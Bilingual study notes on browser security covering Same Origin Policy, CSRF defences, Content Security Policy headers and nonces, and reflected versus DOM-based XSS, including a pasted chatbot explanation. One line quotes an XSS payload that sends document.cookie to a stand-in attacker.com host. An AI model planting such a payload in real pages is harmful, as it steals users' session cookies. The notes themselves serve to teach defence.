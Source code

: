 #### Content Security Policy (CSP)
- Same Origin Policy prohibits cross-origin fetch. 
> SOP 主要是为了保护被fetch的网站。但是SOP不禁止跨源提交表单，于是可以CSRF攻击。（没想到吧，让受害者访问攻击者网站，在受害者不知情的情况下偷偷带着cookie发送请求到目标网站比如转走处于登陆状态的受害者的银行账户里的钱财）。SOP也不禁止跨源加载静态资源，可以利用`<svg onload="'attacker.com?q='+document.cookie">`盗取cookie.（没有想到被fetch的网站可以是攻击者的吧，通过get请求在url中携带的参数把cookie偷走）
- Previously, we talked about ways to tighten up Same Origin Policy in terms of which sites could e.g. send requests with cookies to our site (CSRF)
    - That is, preventing other sites from making certain requests to our site 防御CSRF，在server端用origin allowlist
- CSP is inverse: prevent our site from making requests to other sites
    - CSP is an added layer of security against XSS
    - Even if attacker code is running in user's browser in our site's context, we can limit the damage they can do

In summary
1. SOP prevents cross site fetch
2. server side origin allowlist prevents CSRF
3. CSP prevents XSS

 CSP is set in HTTP response header. CSP blocks HTTP requests which would violate the policy. 比方说访问目标网站，相应的header里设置了CSP,可以让浏览器知道不能向`attacker.com`发请求。

 Goal: content comes from our site
 ```
 Content-Security-Policy: default-src 'self'
 ```
 可以相对路径加载，禁止跨源加载资源，也禁止inline脚本如`<script>alert(1)</script>`等

 Goal: content comes from our site, plus a trusted set of subdomains
 ```
 Content-Security-Policy: default-src 'self' *.trusted.com
 ```
 如果设置了`img-src`或者`scirpt-src`那么相应的资源是轮不到`default-src`其作用的（`default-src` is fallback）。

#### Deploy CSP on an existing site
Q: How do we figure out what the policy should be? What if we missing something? Site breaks. <br>
A: Deploy it in **report-only mode**. Policy is not enforced, but violations are reported to a provided URL.

```
Content-Security-Policy-Report-Only:
  default-src 'self';
  report-uri https://example.com/report
```

#### Nonce
Server sends
```
Content-Security-Policy: script-src 'strict-dynamic' 'nonce-abc123'
```

```html
<script src='https://trusted.com' nonce='abc123'>
</script>
<script nonce='abc123'>foo()</script>
```

- When the attacker inject scripts without the nonce, they won't be allowed to run. 
- Attacker cannot figure out the nonce. Why? Because the header is not returned to the attacker, and, also, the attacker code cannot run to check the response page yet.
  - Nonce changes on each page load, and is unpredictable.


#### DOM-XSS

Q: 还是没理解插入到DOM和反射型xss的不一样，反射型xss不也是把插入到到html中吗，插入dom和插入html有什么不一样的？<br>
KIMI chat: 插入到DOM和反射型XSS之间的关键区别在于攻击的触发方式和数据流的处理。让我们更详细地解释一下：

##### 反射型XSS（Non-Persistent XSS）：
1. **数据流**：在反射型XSS中，攻击者构造一个包含恶意脚本的URL，这个URL被用户点击或通过电子邮件等方式发送给用户。
2. **服务器处理**：当用户访问这个URL时，服务器接收到请求并处理URL中的参数，然后将这些参数作为响应的一部分发送回用户的浏览器。
3. **插入HTML**：服务器生成的响应包含了恶意脚本，这个脚本被插入到HTML响应中，当用户的浏览器接收到这个响应并渲染页面时，恶意脚本被执行。
4. **触发条件**：恶意脚本的执行通常是由用户点击链接或提交表单触发的。

##### DOM-XSS：
1. **数据流**：在DOM-XSS中，恶意数据首先被加载到用户的浏览器中，可能是通过URL参数、表单提交、Cookie或其他方式。
2. **客户端处理**：这些数据被浏览器加载后，网页的JavaScript代码会处理这些数据，并将其插入到DOM中。
3. **插入DOM**：与反射型XSS不同，这里没有服务器参与将数据插入到HTML中的过程。相反，是客户端的JavaScript代码将数据动态地插入到DOM中。
4. **触发条件**：恶意脚本的执行是由客户端的JavaScript代码触发的，通常是用户与页面上的某些元素交互，如点击按钮或提交表单。

##### 插入DOM和插入HTML的区别：
- **处理位置**：插入HTML通常是由服务器端处理并发送给客户端的，而插入DOM是在客户端由JavaScript代码处理的。
- **执行时机**：插入HTML的恶意脚本在服务器响应的HTML页面被浏览器渲染时执行，而插入DOM的恶意脚本是在JavaScript代码执行时，将数据动态插入到DOM后执行。
- **攻击方式**：反射型XSS依赖于服务器将恶意数据作为响应发送给用户，而DOM-XSS依赖于客户端JavaScript代码将数据插入到DOM中。

简而言之，反射型XSS是服务器将恶意脚本作为响应发送给用户，而DOM-XSS是客户端JavaScript将数据动态插入到DOM中，然后执行。两者的主要区别在于攻击的触发点和数据处理的位置。

